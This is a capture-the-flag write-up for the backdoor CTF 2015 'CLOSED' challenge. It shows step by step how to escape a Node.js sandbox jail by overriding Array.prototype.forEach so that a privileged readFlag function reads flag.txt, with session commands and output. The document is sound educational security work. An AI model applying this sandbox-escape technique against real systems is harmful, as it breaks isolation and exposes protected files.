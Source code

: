 # backdoor CTF 2015: [CLOSED](https://backdoor.sdslabs.co/challenges/CLOSED)

**Category:** Exploit
**Points:** 300
**Author:** Amanpreet Singh
**Difficulty:** TODO
**Solves:** 13
**Description:**

* <https://backdoor.sdslabs.co/challenges/CLOSED>

> All paths have been closed. Get the flag: `nc 128.199.107.60 8000`. Submit sha256 of flag obtained.

## Write-up

by [mathiasbynens](https://github.com/mathiasbynens)

[Read the write-up for the _Concealed_ challenge first.](https://github.com/ctfs/write-ups-2015/tree/master/backdoor-ctf-2015/exploit/concealed) This challenge is similar.

Let’s connect to the service:

```bash
$ nc 128.199.107.60 8000
######################################
####           CLOSED             ####
######################################

Welcome to CLOSED Jail
You have access to object named sandboxed and its functions
Rest everything is sandboxed, don’t be a jerk and break something
Wrap your code in a function and return what you want as output
Flag is in flag.txt file in same directory.
Get the flag :D!

home@jail:$
```

The welcome message reveals that the flag is hidden in `flag.txt`. Some initial testing reveals it’s a JavaScript sandbox:

```
home@jail:$ sandboxed
TypeError: Property 'sandboxed' of object #<Object> is not a function

home@jail:$ function() { return sandboxed; }
[object Object]

home@jail:$ function() { return Object.keys(sandboxed); }
readFlag,print

home@jail:$ sandboxed.readFlag
Oh shit! I am reading the wrong file.

home@jail:$ function() { return sandboxed.readFlag; }
function () {
  var text = '';
  flagfiles.forEach(function (file) {
    text += fs.readFileSync(file);
  });

  return text;
}

home@jail:$ sandboxed.print
undefined

undefined

home@jail:$ function() { return sandboxed.print; }
function (data) {
  sys.print(data + '\n' + '\n');
}
```

Unfortunately, the sandbox runs in strict mode, which means we can’t reuse the trick we used to solve [_Concealed_](https://github.com/ctfs/write-ups-2015/tree/master/backdoor-ctf-2015/exploit/concealed) to reveal the rest of the source code:

```
home@jail:$ function() { return String(arguments.callee.caller); }
TypeError: 'caller', 'callee', and 'arguments' properties may not be accessed on strict mode functions or the arguments objects for calls to them
```

It seems the challenge must be solved some other way. Let’s take a closer look at the `readFlag` function:

```
home@jail:$ function() { return sandboxed.readFlag; }
function () {
  var text = '';
  flagfiles.forEach(function (file) {
    text += fs.readFileSync(file);
  });

  return text;
}
```

We can’t control the value of the `flagfiles` variable, but if we could, the challenge could be solved by doing something like `flagfiles = ['flag.txt']`. However, we can overwrite `Array.prototype.forEach` as follows:

```js
Array.prototype.forEach = function(callback, array) {
  return callback.call(array, 'flag.txt');
};
```

Now, when `sandboxed.readFlag` gets called, it will return the contents of `flag.txt`:

```
home@jail:$ function() { Array.prototype.forEach = function(callback, array) { return callback.call(array, 'flag.txt'); }; return sandboxed.readFlag(); }
flag: [redacted]
```

Now that we have the flag, all that’s left to do is to hash it using SHA-256 so it can be submitted:

```bash
$ printf "$flag" | sha256sum
```

## Other write-ups and resources

* none yet
